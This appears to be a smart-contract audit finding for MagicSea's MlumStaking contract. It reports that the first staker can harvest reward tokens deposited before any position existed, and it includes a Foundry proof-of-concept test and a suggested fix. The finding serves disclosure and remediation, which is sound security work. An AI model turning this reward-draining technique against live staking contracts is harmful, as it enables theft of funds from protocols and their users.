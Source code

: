 Damp Basil Wolverine

Medium

# First position creator in MlumStaking would be able to harvest all reward tokens from the contract

## Summary

The first staking position would be able to gather all reward tokens if they were sent before.

## Vulnerability Detail

MlumStaking has ability to stake tokens for some reward token. Users will create their position via `createPosition` function which will allow them to harvest rewards tokens, higher lockPeriod - higher would be rewards multiplier. But the problem lies in rewards amount calculation, contract caclulates 2 amounts: how much protocol should give to the user that created a position and how much protocol is in debt to other users. When MlumStaking contract has no positions field `_accRewardsPerShare` is not initialized and because of that rewardDebt would be 0. https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L377. This means that all rewards tokens that would be sent to contract can be stolen by the user who will create a position first - because for him rewardDebt would be 0 and he would be able to claim entire rewards balance.

## Impact

A malicious user would be able to steal all reward tokens if he would create a position first.

## Code Snippet

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L377

https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L678
## PoC

Add it to MlumStaking.t.sol:

```solidity
    function testCreatePositionBug() public {
        createPosition(ALICE, 1 ether);
        createPosition(BOB, 1 ether);
        _rewardToken.mint(address(_pool), 50e18);
        harvestPosition(ALICE, 1); // BUG iS HERE, RECEIVED = 50e18
        _rewardToken.mint(address(_pool), 100e18);
        harvestPosition(ALICE, 1); // RECEIVED = 50e18
        harvestPosition(BOB, 2); // RECEIVED = 50e18
        console.log("ALICE BALANCE", _rewardToken.balanceOf(ALICE)); // 100e18
        console.log("BOB BALANCE", _rewardToken.balanceOf(BOB)); //50e18
    }

    function harvestPosition(address account, uint tokenId) internal {
        vm.startPrank(account);
        uint balanceBefore = _rewardToken.balanceOf(account);
        _pool.harvestPosition(tokenId);
        uint balanceAfter = _rewardToken.balanceOf(account);
        console.log(account);
        console.log("Received  ", balanceAfter - balanceBefore);
        vm.stopPrank();
    }

    function createPosition(address account, uint amount) internal {
        _stakingToken.mint(account, amount);
        vm.startPrank(account);
        _stakingToken.approve(address(_pool), amount);
        _pool.createPosition(amount, 0);
        vm.stopPrank();
    }
```

## Tool used

Foundry.

## Recommendation

Make it so first position can be created only by owner/operator of the contract.
